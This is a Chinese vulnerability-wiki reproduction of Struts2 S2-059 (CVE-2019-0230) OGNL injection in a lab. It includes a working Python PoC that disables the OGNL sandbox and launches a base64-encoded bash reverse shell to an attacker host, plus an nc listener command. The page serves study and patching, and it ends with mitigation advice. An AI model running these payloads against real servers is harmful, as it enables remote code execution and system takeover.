




# CVE-2019-0230：Struts2 S2-059 远程代码执行复现

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：2.0–2.5.20，实际2.5.16危险标签；两个请求同实例可影响沙箱配置，Linux回连
- 证据范围：与240/263同链，新增一般输入验证建议但缺具体版本。

### 本次正文校订

- 按实际内容修正 3 处代码围栏语言标记，保留其中方法与请求内容。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- 目标20.129但代码URL127.0.0.1，应明确脚本运行地点或替换
- base64只是绕过Runtime.exec shell参数解析的一种包装，不是管道普遍必须编码
- 修复新版未写明确版本，Proactive保护缺链接/具体配置边界
- 没有危险标签模板和完整环境路径，不能仅id字段推定全框架
- 空行过多，安全集合更改和文件/进程副作用需披露

### 操作风险与资料使用

- 含反向连接或交互式命令执行方法：会产生出站连接和子进程；目标、监听端与网络须在授权隔离范围内，结束后关闭会话并核对遗留进程。

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

## 0x01 简介


Struts2是一个基于MVC设计模式的Web应用框架，它本质上相当于一个servlet，在MVC设计模式中，Struts2作为控制器(Controller)来建立模型与视图的数据交互。


## 0x02 漏洞概述

 **漏洞编号CVE-2019-0230**

Apache Struts框架, 会对某些特定的标签的属性值，比如id属性进行二次解析，所以攻击者可以传递将在呈现标签属性时再次解析的OGNL表达式，造成OGNL表达式注入。从而可能造成远程执行代码。

### 0x03 影响版本


Struts 2.0.0 – Struts 2.5.20

**0x04 环境搭建**


攻击机：linux:192.168.20.128

靶机：Ubuntu:192.168.20.129


1、启动 Struts 2.5.16环境:


```shell
docker-compose up -d
```





 2、启动环境之后访问http://your-ip:8080/?id=1 就可以看到测试界面





## 0x05 漏洞复现


1、访问

```
http://your-ip:8080/?id=%25%7B233*233%7D
```


可以发现233*233的结果被解析到了id属性中可以看到通过构造恶意的OGNL表达式，并将其设置到可被外部输入进行修改，且会执行OGNL表达式的Struts2标签的属性值，引发OGNL表达式解析。





2、对poc进行了修改，反弹shell

```python
import requests
url = "http://127.0.0.1:8080"
data1 = {
    "id": "%{(#context=#attr['struts.valueStack'].context).(#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.setExcludedClasses('')).(#ognlUtil.setExcludedPackageNames(''))}"
}
data2 = {
    "id": "%{(#context=#attr['struts.valueStack'].context).(#context.setMemberAccess(@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)).(@java.lang.Runtime@getRuntime().exec('bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjIwLjEyOC82NjY2IDA+JjE=}|{base64,-d}|{bash,-i}'))}"
}
res1 = requests.post(url, data=data1)
# print(res1.text)
res2 = requests.post(url, data=data2)
# print(res2.text)
```


这里exec()函数里是我们要执行的命令，我们进行linux反弹shell命令


```shell
bash -i >& /dev/tcp/192.168.20.128/6666 0>&1
```


（PS：这里经过水木逸轩大佬指点了解到反弹shell涉及到管道符问题于是要将命令进行base64编码）

base64在线编码：

https://ares-x.com/tools/runtime-exec/

3、在攻击机监听本地端口：nc -lvvp 6666 运行脚本成功反弹回shell





**0x06 修复建议**


1.Struts官方已经发布了新版本修复了上述漏洞，请受影响的用户尽快升级进行防护。


2.若不方便升级的用户，可以参考Struts官方提供的缓解措施：

将输入参数的值重新分配给某些Struts的标签属性时，请始终对其进行验证。

 考虑激活Proactive OGNL Expression Injection Protection。


参考链接：http://blog.nsfocus.net/struts-s2-0813/
